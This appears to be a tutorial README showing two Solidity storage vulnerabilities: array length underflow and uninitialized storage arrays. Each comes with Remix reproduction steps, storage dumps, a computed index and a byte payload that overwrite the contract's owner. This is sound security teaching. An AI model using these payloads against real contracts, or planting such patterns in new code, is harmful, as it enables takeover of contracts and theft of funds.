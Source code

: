 # Array length underflow. 

## Description:
The storage for a contract is addressed by 256-bit pointers. All storage 
variables for the contract are stored at different offsets in this single memory space. Every variable occupies a 32-byte 
"slot" in storage that is allocated in order of the variable declaration, starting at address 0. The first 32-byte 
variable will be at address 0, the second at address 1, and so on. Because mappings and dynamic arrays have fluctuating 
sizes, their contents cannot be stored inline in the slots. To solve this, hashing is used.                                                                                       

* In the case of a dynamic array, the reserved slot contains the length of the array as a uint256, and the array data 
itself is located sequentially at the address keccak256(p). Again, the chances of a collision, even for large arrays, 
are so small that they can be ignored.

In general, user-provided data cannot influence storage locations without going through the keccak256 hash function, 
the output of which is infeasible to influence. However, there is one exception: Dynamic arrays are stored sequentially 
starting at their hashed offset. If the index into this array is under attacker control, then the storage address is 
also controlled, within the bounds of the array. Of course, realistic array sizes will be insignificant compared to the 
keccak256 range, but the array length has uint256 type. So, as [others](https://github.com/pertsev/solidity_tricks/tree/master/Underflow) 
it can be (over|under)flowed by `array.length--` e.g. 

[Solidity documentation about memories](http://solidity.readthedocs.io/en/develop/miscellaneous.html#layout-of-state-variables-in-storage)
[Example inspired by](https://github.com/Arachnid/uscc/tree/master/submissions-2017/doughoyte)

### To reproduce:

1. Copy-paste `arrayLengthUnderflow.sol` to remix (or use `Connect to localhost` feature) and deploy `Array` contract. 
2. See Storage memory at debugger: 
```
{
   "0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563":{
      // Slot for array length
      "key":"0x0000000000000000000000000000000000000000000000000000000000000000",
      "value":"0x02"
   },
   "0x510e4e770828ddbf7f7b00ab00a9f6adaf81c0dc9cc85f1f8249c256942d61d9":{
      // first item of array (notice "key" and "0x290d..." above)
      "key":"0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563",
      "value":"0xaa"
   },
   "0x6c13d8c1c5df666ea9ca2a428504a3776c8ca01021c3a1524ca7d765f600979a":{
      // second item of array (notice "key" and "0x290d...63" above)
      "key":"0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e564",
      "value":"0xbb"
   },
   "0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6":{
      // owner
      "key":"0x0000000000000000000000000000000000000000000000000000000000000001",
      "value":"0xca35b7d915458ef540ade6068dfe2f44e8fa733c"
   }
}
```
3. Call `underflow` function 3 times and see Storage: 
```
{
   "0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6":{
      // owner
      "key":"0x0000000000000000000000000000000000000000000000000000000000000001",
      "value":"0xca35b7d915458ef540ade6068dfe2f44e8fa733c"
   },
   "0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563":{
      // array length
      "key":"0x0000000000000000000000000000000000000000000000000000000000000000",
      "value":"0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff"
   },
   "0x3a93c8bac389ae1de2d290d3fe962d3c151e3a269221b7341e4a601c50c12d94":{
      // last array elem (notice "0x29...63" and "0x29...62" above)
      "key":"0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e562",
      "value":"0x0000000000000000000000000000000000000000000000000000000000000000"
   }
}
```
4. Let's overwrite `owner`? Call `modify` with that args:
`"0xd6f21326ab749d5729fcba5677c79037b459436ab7bff709c9d06ce9f10c1a9e", "0xdeadbeef"`
And see storage now:
```
{
   "0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563":{
      "key":"0x0000000000000000000000000000000000000000000000000000000000000000",
      "value":"0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff"
   },
   "0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6":{
      //owner!
      "key":"0x0000000000000000000000000000000000000000000000000000000000000001",
      "value":"0x00000000000000000000000000000000000000000000000000000000deadbeef"
   }
}
```

Stop. How have you known the index `"0xd6f21326ab749d5729fcba5677c79037b459436ab7bff709c9d06ce9f10c1a9e"`?
Ok. Check following Python code to clarification:
```
        //array length   //sha3(0x00)                                                         //owner's slot number
>>> hex(2**256         - 0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563 + 1                    )
'0xd6f21326ab749d5729fcba5677c79037b459436ab7bff709c9d06ce9f10c1a9eL'
```

# Uninitialized array. 

## Description:
By default, `copy` array data and `owner` variable refer to zero cell at Storage memory. (Read more about Storage above)
So, changing `copy` affect `owner` also.  

### To reproduce:

1. Copy-paste `uninitialized.sol` to remix (or use `Connect to localhost` feature) and deploy `Uninitialized` contract. 
2. Then call `rewrite` function with a byte array: 
```
["0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA",
"0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA", "0xAA",
"0x39", "0x05", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00",
"0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00", "0x00"]
```
3. `owner` should be `0xaaaaa...`, `balance` == 1337
